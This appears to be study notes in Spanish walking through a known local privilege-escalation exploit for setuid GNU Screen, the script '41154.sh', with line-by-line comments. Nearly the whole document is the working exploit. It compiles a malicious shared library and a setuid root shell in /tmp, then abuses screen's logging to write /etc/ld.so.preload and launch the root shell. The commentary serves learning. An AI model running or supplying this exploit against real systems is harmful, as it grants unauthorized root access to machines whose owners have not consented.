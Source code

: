 41154.sh > Vamos a analizar el exploit...  

```bash
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c  # Librería en código c
#include <stdio.h> 
#include <sys/types.h>
#include <unistd.h>  -> tipicas librerias de c
__attribute__ ((__constructor__))
void dropshell(void){ 
    chown("/tmp/rootshell", 0, 0); # -> /tmp/rootshell será propiedad de root 
    chmod("/tmp/rootshell", 04755); # -> también suid con privielgios máximos
    unlink("/etc/ld.so.preload"); # -> deslinkea la libreria que se carga siempre al iniciar screen
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c # este codigo que ha creado en c lo compila en una libreri
rm -f /tmp/libhax.c

cat << EOF > /tmp/rootshell.c # Una vez hecho esto crea un script en c que elevará privilegios
#include <stdio.h>
int main(void){
    setuid(0); 
    setgid(0);
    seteuid(0);
    setegid(0); # -> todo esto eleva privilegios para los comandos futuros
    execvp("/bin/sh", NULL, NULL); #  o sea para esto "bin/sh"
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c # lo compila
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # mete la libreria esta en ld.so.preload
screen -ls # screen itself is setuid, so... # Ahora se ejecuta con la libreria maliciosa el script de altos privs
/tmp/rootshell
```
